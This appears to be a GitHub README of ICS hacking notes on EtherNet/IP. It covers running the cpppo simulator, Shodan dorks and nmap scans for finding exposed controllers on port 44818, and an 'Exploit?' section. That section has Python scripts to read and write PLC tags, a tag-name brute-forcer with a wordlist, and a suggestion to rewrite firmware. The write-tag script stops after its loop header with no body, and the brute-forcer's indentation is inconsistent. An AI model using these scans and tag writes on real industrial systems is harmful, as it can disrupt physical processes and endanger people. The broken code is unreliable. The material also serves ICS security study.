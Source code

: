 # EtherNet/IP

![EtherNet/IP OSI Model](docs/ethernetip_osi_model.jpg)

![EtherNet/IP Frame Structure](docs/ethernetip_frame_structure.jpg)

### EtherNet/IP Simulator

To install a python implementation of EtherNet/IP Stack in a Ubuntu VM:

``` 
$ sudo -H pip install --upgrade cpppo
$ python -m cpppo.server.enip -v
python -m cpppo.server.enip -v
12-16 01:53:33.461 MainThread root     NORMAL   main       Loaded config files: []
12-16 01:53:33.461 MainThread enip.srv NORMAL   main       Delaying all responses by 0.0 seconds
12-16 01:53:33.462 MainThread root     NORMAL   main       EtherNet/IP Simulator: ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] running on ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] responding to external done/disable signal in object 139661755723408
12-16 01:53:33.462   Thread-1 enip.srv NORMAL   enip_srv   EtherNet/IP Server enip_UDP begins serving peer None
``` 

or start this way to enable an array of 1000 INT values. Tag is called *SCADA*:

``` 
python -m cpppo.server.enip SCADA=INT[1000] -v
``` 

### Dorks and detection

Use these to get started with shodan then you can extend fingerprints based on results!

``` 
Device type: Communications Adapter
port:44818
```

Usually, service is on port **44818 TCP** or sometime on **2222 UDP**. To discover devices in a specific subnet, nMap scan should look like:

``` 
$ nmap -p44818 172.16.252.1/24

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:58 EET

Nmap scan report for 172.16.252.134
Host is up (0.00062s latency).
PORT      STATE SERVICE
44818/tcp open  unknown
``` 

or use a passivie method to scan for live hosts then check ports: [scan.md](../scan.md)

and if you want to analyze the service itself: https://nmap.org/nsedoc/scripts/enip-info.html


``` 
$ nmap 172.16.252.134 -p 44818 --script=enip-info

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:55 EET
Nmap scan report for 172.16.252.134
Host is up (0.00028s latency).
PORT      STATE SERVICE
44818/tcp open  EtherNet-IP-2
| enip-info: 
|   Vendor: Rockwell Automation/Allen-Bradley (1)
|   Product Name: 1756-L61/B LOGIX5561
|   Serial Number: 0x006c061a
|   Device Type: Programmable Logic Controller (14)
|   Product Code: 54
|   Revision: 20.11
|_  Device IP: 0.0.0.0
``` 

### Exploit?

1. Use *RSLogix 5000 Software* - it will allow you to perform some direct operations and even rewrite firmware.

2. Use *cpppo* to read/write tags:

**Write a specific tag:**

```
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[13]", "SCADA[2]=(INT)37" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
``` 

**Read a specific tag:**

The trick in reading is that you have to already know the name of the tag you want to read! In the example, the tag name is "SCADA", the one used when simulator was started!

```
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[1]", "SCADA[2]" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
        print( "%s: %20s: %s" % ( time.ctime(), descr, value ))
```

The only difference is the *line 7*, where the value is defined!

**Find new tags using broute force**

```
#!/usr/bin/env  python2

from cpppo.server.enip import client

host = "192.168.179.131"

with open('tagNames.txt') as f:
    tags = f.read().splitlines()                    # read all the tag names in the dictionary file, 
                                                    # stripping of newlines
with client.connector( host=host ) as conn:
    for tag in tags:
        req = conn.read( tag + '.ACC')              # adding .ACC to avoid errors on not DINT type tags

        assert conn.readable(timeout=1.0), "Failed to receive reply"

        reply = next(conn)
        for k, v in reply.items():                  # Scan through the Key and Value pairs returned
            if str(k).endswith('status'):
				if (v == 5):                        # Found a valid tag if the transaction status is 5 
                    print tag + " is a valid tag"
```

where *tagNames.txt* is a list of possible tags, one per line:

```
motor
pump
tank
valve
actuator
power
circuit
room
grid
panel
control
john
cena
password
username
user
pass
secret
safe
key
hidden
```

#### Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * Introduction into ICSs world: https://www.myplctraining.com/beginners-plc-overview-part-1-of-4-introduction-to-plcs/